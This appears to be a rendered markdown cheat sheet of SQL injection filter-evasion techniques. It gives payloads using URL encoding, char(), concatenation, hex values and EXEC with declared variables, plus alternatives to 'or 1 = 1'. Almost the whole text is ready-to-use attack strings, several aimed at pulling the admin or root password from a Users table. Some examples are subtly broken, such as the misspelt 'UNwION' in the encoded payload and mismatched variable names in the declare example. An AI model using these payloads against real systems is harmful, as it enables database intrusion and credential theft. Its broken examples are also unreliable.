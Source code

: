 - ## URL Encoding:
 
  Use the online URL encoding to encode the SQL statement.
  `' UNION SELECT password FROM Users WHERE name='admin'--`
  
  The URL encoding of the SQL injection statement will be:
  `%27%20UNwION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`
<br>

- ## Character Encoding:
  
  Char() function can be used to replace English char. For example, char(114,111,111,116) means root:
  `' UNION SELECT password FROM Users WHERE name='root'--`
  
  To apply the Char(), the SQL injeciton statement will be
  `' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`
<br>

- ## String Concatenation:

  Concatenation breaks up SQL keywords and evades filters. Concatenation syntax varies based on database engine. Take MS SQL engine as an example:
  `select 1`
  
  The simple SQL statement can be changed as below by using concatenation:
  `EXEC('SEL' + 'ECT 1')`
<br>

- ## Hex Encoding:

  Hex encoding technique uses Hexadecimal encoding to replace original SQL statement char. For example, `root` can be represented as `726F6F74`
  `Select user from users where name = 'root'`
  
  The SQL statement by using HEX value will be:
  `Select user from users where name = 726F6F74`
  Or
  `Select user from users where name = unhex('726F6F74')`
<br>

- ## Declare Variables:

  Declare the SQL injection statement into variable and execute it. For example, SQL injection statement below:
  `Union Select password`

  Define the SQL statement into variable `SQLivar`
  `; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password'); EXEC(@SQLivar)`
<br>
<br>

# Alternative Expression of ‘or 1 = 1’

``` 
OR 'SQLi' = 'SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1
OR 2 between 3 and 1
OR 'SQLi' = N'SQLi'
1 and 1 = 1
1 || 1 = 1
1 && 1 = 1
```

